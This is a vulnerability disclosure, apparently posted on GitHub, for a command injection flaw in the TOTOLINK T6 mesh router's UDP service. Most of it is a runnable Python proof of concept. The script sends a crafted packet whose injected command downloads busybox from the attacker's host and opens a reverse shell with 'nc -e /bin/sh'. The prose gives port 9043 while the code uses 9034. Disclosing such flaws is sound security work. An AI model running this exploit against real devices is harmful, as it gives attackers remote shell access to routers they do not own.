

# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a command injection vulnerability. Attacker can send a malicious UDP packet to trigger this vulnerability.

# Vulnerability details

Device open port `9043` and start listen. When UDP packet come in, the binary compare first 3 char with "orf", "irf",... and use `strcat` to create a string command.



Attacker can inject his own command.

# POC

```python
import sys, socket, http.server, socketserver, threading, time

class MyHandler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        super().do_GET()

def start_server(PORT = 8000):
    Handler = MyHandler
    httpd = socketserver.TCPServer(("", PORT), Handler)
    
    print("[+] Serving on port %d" % PORT)
    httpd.serve_forever()

def start_http_server():
    server_thread = threading.Thread(target=start_server)
    server_thread.daemon = True
    server_thread.start()

    print("[+] Server is running in the background...")

def exploit(target_ip, my_ip):
    UDP_IP = target_ip
    UDP_PORT = 9034
    CMD = f'''orf;wget http://{my_ip}:8000/busybox -O /tmp/busybox; chmod +x /tmp/busybox; /tmp/busybox nc {my_ip} 1943 -e /bin/sh;'''

    print("[+] UDP target IP:", UDP_IP)
    print("[+] UDP target port:", UDP_PORT)

    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.sendto(bytes(CMD, "utf-8"), (UDP_IP, UDP_PORT))


if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("[-] Usage: <%s> target_ip my_ip" % sys.argv[0])
        exit(0)
    
    target_ip = sys.argv[1]
    my_ip = sys.argv[2]

    start_http_server()

    print("[+] You should start nc -lvnp 1943")
    exploit(target_ip, my_ip)

    while True:
        time.sleep(1)
```

[POC Video](https://www.youtube.com/watch?v=uH4-GdT1cqQ)